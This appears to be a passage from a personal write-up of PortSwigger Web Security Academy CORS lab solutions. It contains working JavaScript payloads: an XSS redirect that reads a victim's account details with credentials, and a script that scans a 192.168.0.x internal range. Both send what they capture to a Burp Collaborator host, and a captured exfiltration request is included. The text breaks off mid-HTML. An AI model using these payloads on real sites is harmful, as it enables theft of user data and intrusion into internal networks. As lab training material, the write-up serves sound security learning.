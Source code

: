 Solution:

```
<script>
<!-- https://www.w3schools.com/howto/howto_js_redirect_webpage.asp -->
window.location.href = "http://stock.0ac4005904f4b611c0980e0200bf0050.web-security-academy.net/?productId=2%3Cscript%3Ealert(%22hoping it works%22);var req = new XMLHttpRequest();req.onload = reqListener;req.open(%22get%22,%22https://0ac4005904f4b611c0980e0200bf0050.web-security-academy.net/accountDetails%22,true);req.withCredentials = true;req.send();function reqListener() {fetch(%22https://0efgxv22sc4xjuhhv7x7tzg05rbpze.burpcollaborator.net%22, {method: %22POST%22, mode: %22no-cors%22, body: req.responseText});};%3C%2Fscript%3E&storeId=1"
</script>
```

- [Redirecting webpages using javascript](https://www.w3schools.com/howto/howto_js_redirect_webpage.asp)

- [URL encoding/decoding tool](https://meyerweb.com/eric/tools/dencoder/)

### Lab: CORS vulnerability with internal network pivot attack

Part 1:

```
<script>
for (let i = 0; i < 256; i++) {
  fetch('http://192.168.0.' + i + ':8080', {method: 'GET'}) <!-- cannot put no cors -->
    .then(response => response.text())
    .then((text) => {
      try {
       fetch('http://0ef9fq4pj7a92vqr6acmp9bcw32tqi.burpcollaborator.net?ip=' + 'http://192.168.0.' + i + ':8080', {method: 'POST', mode: 'no-cors', body: text })
      } catch(err) {}
    })
}
</script>
```

Part 1 Output:

```
POST /?ip=http://192.168.0.114:8080 HTTP/1.1
Host: 0ef9fq4pj7a92vqr6acmp9bcw32tqi.burpcollaborator.net
Connection: keep-alive
Content-Length: 3335
User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.52 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://exploit-0ab000c903b93d00c0d721ae018b0043.web-security-academy.net
Referer: http://exploit-0ab000c903b93d00c0d721ae018b0043.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>&#67;&#79;&#82;&#83;&#32;&#118;&#117;&#108;&#110;&#101;&#114;&#97;&#98;&#105;&#108;&#105;&#116;&#121;&#32;&#119;&#105;&#116;&#104;&#32;&#105;&#110;&#116;&#101;&#114;&#110;&#97;&#108;&#32;&#110;&#101;&#116;&#119;&#111;&#114;&#107;&#32;&#112;&#105;&#118;&#111;&#116;&#32;&#97;&#116;&#116;&#97;&#99;&#107;</title>
    </head>
    <body>
            <script src="/resources/labheader/js/labHeader.js"></script>
```